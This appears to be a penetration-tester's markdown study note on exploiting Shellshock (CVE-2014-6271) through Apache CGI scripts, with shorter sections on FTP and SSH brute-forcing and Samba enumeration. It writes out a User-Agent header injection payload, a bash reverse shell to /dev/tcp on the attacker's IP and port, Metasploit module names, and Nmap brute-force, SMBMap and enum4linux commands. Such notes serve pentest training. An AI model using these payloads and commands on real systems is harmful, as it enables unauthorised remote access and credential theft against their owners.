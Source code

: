 
---

##   Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)


Shellshock is the name give to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters:(){:;};

This vulnerability only affects Linux as Windows doesn't use Bash as it is not a Nix based operating system. 

In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.

CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux systems, after which the output is displayed to the client.

In order to exploit this vulnerability, we will need to locate an input vector or script that allows us to communicate with Bash.

In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

Whenever a CGI script is executed, the web server will initiate a new process and a run the CGI script with Bash.

This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

If we are having a website that is running Apache, we can see if there is a CGI script being used by right clicking on the web page and choose "view page source"

If we see any script section:<script> file.cgi</script> that means this website is probably vulnerable to a Shellshock attack.

**To make sure the website is vulnerable to Shellshock attack, we will use Nmap:**
`nmap -Pn --script=http-shellshock.nse --script-args "http-shellshock.uri=/(filename).cgi" -A -p80 -v (target webbsite)`

We will utilize BurpSuite for this vulnerability.

We will intercept the traffic with BurpSuite while are in the .cgi file page. For example, if the website is using a file called gettime.cgi in its code, we will go to this page: (target website)/gettime.cgi

After capturing the traffic, we will be attacking the User-Agent part in the HTTP header.

We send the request that we captured to Repeater.

To execute the malicious code:User-Agent: () { : ; };  echo; echo; /bin/bash -c '(our malicious code)' 

We can have a reverse shell session by using netcat on a port and replace the malicious code with this instead:bash -i >&/dev/tcp/(our IP address)/(port number) 0>&1.

We can also use MSF to both, check if the target is vulnerable and to get a reverse shell session on target by using these modules: "auxiliary/scanner/http/apache_mod_cgi_bash_env", and "exploit/multi/http/apache_mod_cgi_bash_env_exec"

---

## Exploiting FTP

We know already about the MSF module that would brute-force ftp servers to give us valid credentials. However, there is a much faster script in Nmap that does the same thing:`nmap -Pn --script=ftp-brute.nse --script-args userdb=(list of users),passdb=(list of passwords) -v -p21 (target IP)`

---

## Exploiting SSH

As we have done for FTP, we can use this command in Nmap that would brute-force ssh for us: `nmap -Pn --script=ssh-brute.nse --script-args userdb=(list of usernames),passdb=(list of passwords) -p22 -v (target)| grep "Valid credentials"`

---


## Exploiting Samba

After obtaining valid credentials, we can use SMBMap in order to enumerate SAMBA share drives, list contents of the shares as well as download files and execute remote commands on the target.

We can use SMBMap like so:`smbmap -H (target IP) -u (username) -p (password)`

We can use the tool enum4linux to run a basic enumeration against smb server like so: `enum4linux -a (target IP)` , and when we manage to get valid credentials, we can run another enumeration scan that is more comprehensive: `enum4linux -a -u (username) -p (password) (target IP)`

---

